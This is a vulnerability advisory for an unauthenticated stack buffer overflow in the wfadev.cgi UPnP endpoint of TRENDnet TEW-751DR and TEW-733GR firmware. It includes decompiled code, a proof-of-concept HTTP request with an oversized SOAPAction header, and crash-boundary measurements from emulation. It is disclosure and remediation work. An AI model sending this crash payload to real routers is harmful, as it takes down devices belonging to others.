




# TRENDnet TEW-751DR / TEW-733GR: Stack-Based Buffer Overflow (CWE-121) in `FUN_0040ed90` (`/wfadev.cgi` / `SOAPAction`)

## Summary

The UPnP/WFA control endpoint `wfadev.cgi` on TRENDnet TEW-751DR and TEW-733GR (firmware 1.03B01) copies the `SOAPAction` request header, without any length limit, into a 4100-byte stack buffer using `sprintf`. A `SOAPAction` value longer than roughly 3960 bytes overflows the buffer and crashes the CGI process. No authentication is required. The binary has no stack canary and is not position-independent.

## Impact

- **Impact type:** Denial of Service (proven); stack corruption that is a plausible route to remote code execution (not demonstrated in this report)
- **Authentication required:** no
- **Privilege:** the CGI runs as `root` on the device
- **User interaction:** none
- **Reachability:** UPnP/WFA HTTP service, 49152/tcp (LAN side); WAN exposure was not verified

## Affected Products

- **Vendor:** TRENDnet
- **Products:** TEW-751DR v1, TEW-733GR v1
- **Vulnerability type:** Stack-Based Buffer Overflow (CWE-121)

### Tested vulnerable firmware

- TEW-751DR 1.03B01 — `TEW751DR_FW103B01.bin`, sha256 `fe1168fc2b2bf4744df3a7145eeaf11b2c5272ae502c8f2993e5c614499322ec`
- TEW-733GR 1.03B01 — `TEW733GR_FW103B01.bin`, sha256 `6a7b982ce6a711bfaefc5e903149f0f697a821453a275a6782fb3382510ba54a`

**Firmware download address:**
- https://download.trendnet.com/TEW-751DR/firmware/TEW-751DRv1_(FW1.03B01).zip
- https://download.trendnet.com/TEW-733GR/firmware/TEW-733GRv1_(FW1.03B01).zip

> Both firmware images contain a byte-identical `htdocs/cgibin` (sha256 `e27547940d0ae75233fc6b2b64c50d37fc3b55d4dea9d86bbb86dd448f08a7eb`), so the same machine code is present on both models. Testing was performed on the TEW-751DR image.

## Attack Vector

- **Entry point:** `POST /wfadev.cgi?service=<any value>` on the UPnP HTTP service (49152/tcp)
- **Required header:** `SOAPAction` containing `#` (the action name after `#` must match one of the 14 registered WFA actions)
- **Injection parameter:** the part of `SOAPAction` before `#`
- **Body:** must be well-formed XML (parsed by `ixmlParseBuffer`)
- **Authentication:** not required
- **User interaction:** not required

## Technical Details

`wfadev.cgi` is not a file in the firmware image. It is a symlink created at boot by `etc/services/HTTP/httpsvcs.php:137` whenever a Wi-Fi Alliance device is announced:

```php
if ($mkln_wfa > 0) startcmd("ln -s /htdocs/cgibin ".$vdir."/wfadev.cgi");
```

The WFA device is announced unconditionally by `etc/defnodes/S90upnpwfa.php`, so the endpoint exists by design on the UPnP port (49152).

`wfadev_main` (`0x40fafc` in `htdocs/cgibin`) performs **no session or credential check** — unlike the eight other web CGIs in the same binary, it never calls `sess_ispoweruser()` or `sess_validate()`. It requires:

1. `REQUEST_METHOD == POST`
2. `SOAPAction` containing `#`
3. `REQUEST_URI` starting with `?service=`
4. a body that parses as XML

It then looks up the text between `SOAPAction`'s `#` and, if found, dispatches to one of 14 handlers:

```
GetDeviceInfo 0x40f950   PutMessage 0x40f740   GetAPSettings 0x40f138
SetAPSettings 0x40f100   DelAPSettings 0x40f0c8 GetSTASettings 0x40f090
SetSTASettings 0x40f058  DelSTASettings 0x40f020 PutWLANResponse 0x40f524
SetSelectedRegistrar 0x40f344   RebootAP 0x40efe8   ResetAP 0x40efb0
RebootSTA 0x40ef78       ResetSTA 0x40ef40
```

Every handler is a thin wrapper around the shared response builder `FUN_0040ed90`, which is where the overflow happens:

```c
void FUN_0040ed90(int status, char *action, char *soapaction, char *k, char *v)
{
  char acStack_1020 [4100];                       /* fixed 4100-byte stack buffer */

  if (status == 200) {
    puts("HTTP/1.1 200 OK\r");
    iVar1 = sprintf(acStack_1020,
              "<s:Envelope xmlns:s=\"...\" s:encodingStyle=\"...\">\n<s:Body>\n");
    if (k == 0)
      iVar2 = sprintf(acStack_1020 + iVar1,
                "<u:%sResponse xmlns:u=\"%s\" />\n", action, soapaction);
    ...
```

`soapaction` is the `HTTP_SOAPACTION` environment variable (i.e. the request header) with the trailing `#`-suffix split off. It is passed through with `strlen()` used only for the trailing-quote check — never bounded. The second `sprintf` therefore writes an attacker-controlled string of arbitrary length into `acStack_1020`.

Binary protections (from the unpacked image):

```
readelf -s htdocs/cgibin | grep -c stack_chk   ->  0      (no stack canary)
readelf -h htdocs/cgibin | grep Type           ->  EXEC   (not PIE)
```

## Proof of Concept (PoC)

### Steps to reproduce

1. Extract the firmware and confirm the `cgibin` hash matches the one above.
2. Run the CGI in the firmware's own root filesystem (qemu-user + `chroot`, using the firmware's static busybox as `/bin/sh`), or send the request to a device with the UPnP service enabled.
3. Invoke `wfadev.cgi` with a `SOAPAction` whose pre-`#` part is `N` bytes of `A`, and a 4-byte XML body.
4. Observe the exit status for increasing `N`.

### Example request

```http
POST /wfadev.cgi?service=WFAWLANConfig1 HTTP/1.1
Host: 192.168.10.1:49152
SOAPAction: AAAAAAAAAA...AAAA#SetAPSettings
Content-Type: text/xml
Content-Length: 4

<a/>
```

The `SOAPAction` value is `N` bytes of `A` followed by `#SetAPSettings`.

### Verification

Measured against the emulated firmware (`N` = length of the `SOAPAction` prefix):

| `N` | Result |
|---:|---|
| 26 / 100 / 1000 / 2000 / 3000 / 3860 / 3900 | `EXIT=0`, normal SOAP response |
| 3940 / 3960 / 3980 / 4000 / 4020 / 4040 / 4090 / 4100 / 4200 / 4600 / 5000 | `SIGSEGV`, `EXIT=139` |

The control request (`N` = 26, `urn:x:1#SetAPSettings`) returns a normal response, and the same header value is reflected back into the XML — which shows the overflow point and the reflection point are the same `sprintf`:

```http
HTTP/1.1 200 OK
Content-Type: text/xml;
Content-Length: 207
EXT:

<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<s:Body>
<u:SetAPSettingsResponse xmlns:u="urn:x:1" />
```

The 3900/4000-byte boundary matches a 4100-byte buffer plus roughly 110–150 bytes of fixed envelope text.


### HTTP-level differential (through a CGI-to-HTTP bridge)

The CGI was wrapped in a minimal HTTP→CGI bridge so the request/response pair can be observed
over real HTTP (and captured by any MITM proxy). The bridge reports the CGI exit code in the
`X-CGI-Exit` response header:

```
# control, 26-byte SOAPAction prefix
HTTP/1.1 200 OK
X-CGI-Exit: 0

# trigger, 4000-byte SOAPAction prefix
HTTP/1.1 200 OK
X-CGI-Exit: -11        <- SIGSEGV
```

Note the HTTP status stays `200` in the crashing case because the process writes the response
before dying; the crash is visible only in the exit code. Both requests were also sent through
Yakit's HTTP fuzzer and are stored in its flow database (2 flows matching `wfadev`).

**Vulnerable code and full transcript:**
[`CVE3-evidence-transcript.txt`](CVE3-evidence-transcript.txt)

> The screenshots above are window captures of the running Yakit UI (flow list, control flow, trigger flow). The accompanying `CVE3-evidence-transcript.txt` is the raw text transcript of the emulated run. Everything was reproduced locally in a chroot of the extracted firmware; it has **not** been verified on physical hardware.


### Terminal replay (control / trigger / boundary)

One self-contained script re-runs the whole thing: a normal action string (N=26), an
in-buffer value (N=3900), the overflow (N=4000) and a boundary sweep. Only `N` changes.



The raw transcript of that run is `CVE3-wfadev-replay.txt`.

### Yakit capture (control vs trigger)

The differential is the proof: the same request is sent twice, and **only the length of the
`Soapaction` header changes**. Everything is captured by Yakit's MITM proxy on
`localhost:18099` (the bridged CGI described above).

**Figure 1 — both flows in Yakit's history** (flow #5 = control, flow #6 = trigger):



**Figure 2 — flow #5, control**: `Soapaction: urn:x:1#SetAPSettings` (26 bytes),
`Content-Length: 4`, body `<a/>`. The response is a normal SOAP reply with
`Content-Length: 207` and **`X-CGI-Exit: 0`**.



**Figure 3 — flow #6, trigger**: identical request except `Soapaction` is 4000 `A`s followed by
`#SetAPSettings`. The response still comes back (`Content-Length: 4200`) but now carries
**`X-CGI-Exit: -11`** — the CGI process was killed by SIGSEGV after writing it.



Reading the pair: HTTP status is `200` in both cases (the process writes the response before
dying), so a scanner looking only at status codes would see nothing. The signal is the process
exit code, which flips `0 → -11` exactly when the header crosses ~3960 bytes.

**Vulnerable code and full transcript:**
[`CVE3-evidence-transcript.txt`](CVE3-evidence-transcript.txt)

> The screenshots above are window captures of the running Yakit UI (flow list, control flow, trigger flow). The accompanying `CVE3-evidence-transcript.txt` is the raw text transcript of the emulated run. Everything was reproduced locally in a chroot of the extracted firmware; it has **not** been verified on physical hardware.

## Limitations

- Code execution was **not** demonstrated. Only the crash is proven.
- WAN-side reachability of the UPnP/WFA service was not verified; the CVSS vector below uses `AV:A`.
- TEW-752DRU ships a different `cgibin` (sha256 `b4f043107e2e375c72c2e47e153de595f99aef490dd1bd13d4dea6bce865a33b`) and is **not** covered by this report.
- The vendor has not been contacted about this issue.

## Suggested Remediation

- Replace the `sprintf` calls in `FUN_0040ed90` with `snprintf` bounded by the remaining space in `acStack_1020`.
- Enforce the RFC limit on `SOAPAction` length at the entry point (legitimate values are well under 200 bytes).
- Restrict the endpoint: LAN only, and only while WFA registration is actually in progress.

## CVSS

`CVSS:3.1/AV:A/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` — 7.5 (High)

`AC:H` reflects that code execution was not demonstrated; if a reliable exploit is built, `AC:L` applies (8.7).
